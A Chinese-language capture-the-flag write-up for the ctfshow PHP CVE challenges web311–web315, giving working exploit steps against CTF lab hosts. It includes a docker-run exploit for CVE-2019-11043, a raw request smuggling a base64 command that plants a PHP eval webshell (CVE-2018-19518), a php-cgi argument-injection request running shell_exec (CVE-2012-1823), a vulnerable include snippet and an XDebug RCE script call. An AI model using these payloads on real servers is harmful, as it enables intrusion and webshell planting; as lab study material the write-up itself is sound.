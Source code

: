 ## ctfshow-phpCVE
### web311

CVE-2019-11043

**[phuip-fpizdam](https://github.com/neex/phuip-fpizdam)**

go没鼓捣好，直接上**docker**吧

```bash
docker run --rm ypereirareis/cve-2019-11043 http://d72663bf-50f8-4fe6-88cf-6e1a6d5ca2ca.challenge.ctf.show/index.php
```

然后访问`index.php?a=ls`即可执行命令

![image-20221220144945441](phpCVE.assets/image-20221220144945441.png)

不成功需要多试几次

**Try multiple times as only some of php-fpm workers are infected.**

### web312

**[PHP imap 远程命令执行漏洞（CVE-2018-19518）](https://github.com/vulhub/vulhub)**

**php5.6.x < php5.6.39**

bp发包如下

```
POST / HTTP/1.1
Host: d7be7a80-89a7-4f1e-be68-5f00f0b7eeeb.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://XXX:8080/
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Connection: close
Upgrade-Insecure-Requests: 1

hostname=x+-oProxyCommand%3decho%09ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOycgPiAvdmFyL3d3dy9odG1sL2UucGhw|base64%09-d|sh}a&username=222&password=333
```

这是写了一个后门为 1 的一句话木马到 **e.php** 中

![image-20221220145650238](phpCVE.assets/image-20221220145650238.png)

### web313

[PHP-CGI远程代码执行漏洞（CVE-2012-1823）分析](https://www.leavesongs.com/PENETRATION/php-cgi-cve-2012-1823.html)

**php 5.4.1**

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: 894dd802-cc20-4060-aa3e-1d805f50becf.challenge.ctf.show
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 54

<?php echo shell_exec("cat /somewhere/fla9.txt"); ?>
```

![image-20221220150021292](phpCVE.assets/image-20221220150021292.png)

### web314

```php
<?php

error_reporting(0);

highlight_file(__FILE__);

//phpinfo
$file = $_GET['f'];

if(!preg_match('/\:/',$file)){
    include($file);
}
```

写入nginx日志

![image-20221220150440586](phpCVE.assets/image-20221220150440586.png)

预期解是**session文件上传**，等会当专题整理下

### web315

[XDebug 远程调试漏洞](https://github.com/vulhub/vulhub/tree/master/php/xdebug-rce)

跑下脚本,脚本在上面的网站里（需要有公网服务器）

python3 exp.py -t url/index.php -c 'shell_exec('id');'